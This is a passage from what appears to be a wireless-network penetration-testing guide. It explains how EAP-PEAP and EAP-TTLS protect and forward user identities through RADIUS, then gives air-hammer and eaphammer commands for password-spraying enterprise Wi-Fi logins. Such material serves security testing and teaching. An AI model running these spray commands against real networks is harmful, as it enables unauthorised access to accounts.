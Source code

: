     - Alternatively, the initial RADIUS server may function as the EAP-PEAP or EAP-TTLS server and either handle the protected authentication method or forward it to another server. This option facilitates the configuration of distinct policies for various realms.

In EAP-PEAP, once the TLS tunnel is established between the PEAP server and the PEAP client, the PEAP server initiates an EAP-Identity request and transmits it through the TLS tunnel. The client responds to this second EAP-Identity request by sending an EAP-Identity response containing the user's true identity through the encrypted tunnel. This approach effectively prevents the revelation of the user's actual identity to anyone eavesdropping on the 802.11 traffic.

EAP-TTLS follows a slightly different procedure. With EAP-TTLS, the client typically authenticates using PAP or CHAP, secured by the TLS tunnel. In this case, the client includes a User-Name attribute and either a Password or CHAP-Password attribute in the initial TLS message sent after tunnel establishment.

Regardless of the protocol chosen, the PEAP/TTLS server obtains knowledge of the user's true identity after the TLS tunnel has been established. The true identity can be represented as user@realm or simply user. If the PEAP/TTLS server is also responsible for authenticating the user, it now possesses the user's identity and proceeds with the authentication method protected by the TLS tunnel. Alternatively, the PEAP/TTLS server may forward a new RADIUS request to the user's home RADIUS server. This new RADIUS request omits the PEAP or TTLS protocol layer. In cases where the protected authentication method is EAP, the inner EAP messages are transmitted to the home RADIUS server without the EAP-PEAP or EAP-TTLS wrapper. The User-Name attribute of the outgoing RADIUS message contains the user's true identity, replacing the anonymous User-Name from the incoming RADIUS request. When the protected authentication method is PAP or CHAP (supported only by TTLS), the User-Name and other authentication attributes extracted from the TLS payload are substituted in the outgoing RADIUS message, displacing the anonymous User-Name and TTLS EAP-Message attributes found in the incoming RADIUS request.

For more info check [https://www.interlinknetworks.com/app\_notes/eap-peap.htm](https://www.interlinknetworks.com/app\_notes/eap-peap.htm)


### EAP-Bruteforce (password spray)

If the client is expected to use a **username and password** (notice that **EAP-TLS won't be valid** in this case), then you could try to get a **list** a **usernames** (see next part) and **passwords** and try to **bruteforce** the access using [**air-hammer**](https://github.com/Wh1t3Rh1n0/air-hammer)**.**

```bash
./air-hammer.py -i wlan0 -e Test-Network -P UserPassword1 -u usernames.txt
```

You could also do this attack using `eaphammer`:

```bash
./eaphammer --eap-spray \
	--interface-pool wlan0 wlan1 wlan2 wlan3 wlan4 \
	--essid example-wifi \
	--password bananas \
	--user-list users.txt
```

## Client attacks Theory
